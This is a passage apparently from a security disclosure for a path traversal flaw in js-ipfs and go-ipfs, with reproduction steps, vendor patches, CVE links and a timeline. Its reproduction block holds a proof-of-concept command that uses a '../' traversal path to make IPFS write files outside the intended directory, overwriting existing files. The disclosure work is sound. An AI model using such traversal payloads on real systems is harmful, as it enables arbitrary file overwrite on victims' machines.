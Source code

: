 1. create two empty dummy files `Readme.md`, `Readme2.md`
2. build js-ipfs with the changes outline in the image above
3. add both dummy files to the ipfs index traversing out of an existing dir to `/tmp/yolo.ipfs-abspath-injected`
4. perform an `ipfs ls` and `ipfs get` as shown in the example in the description section.
5. a file should be created in `/tmp/yolo-ipfs-abspath-injected` (existing files will be overwritten)

```
#> touch Readme.md
#> touch Readme2.md
#> # — build js-ipfs —
#> OVERRIDE_PATH="../../../../../../../../../../../../tmp/yolo-ipfs-abspath-injected" ./packages/ipfs-message-port-client/node_modules/.bin/jsipfs add -w README.md README2.md
```


## Vendor Response

* go-ipfs patches for 0.8
* js-ipfs patches released in 0.52.2
* vendor security advisories
  * [CVE-2020-26279](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-27pv-q55r-222g)
  * [CVE-2020-26283](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-r4gv-vj59-cccm)


### Timeline

```
Nov/23/2020 - initial contact. vendor acknowledgement. PoC shared.
Dec/18/2020 - fix preview: go-ipfs patches for 0.8, js-ipfs patches released in 0.52.2
Mar/24/2021 - vendor published security advisories [CVE-2020-26279](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-27pv-q55r-222g) [CVE-2020-26283](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-r4gv-vj59-cccm)
```

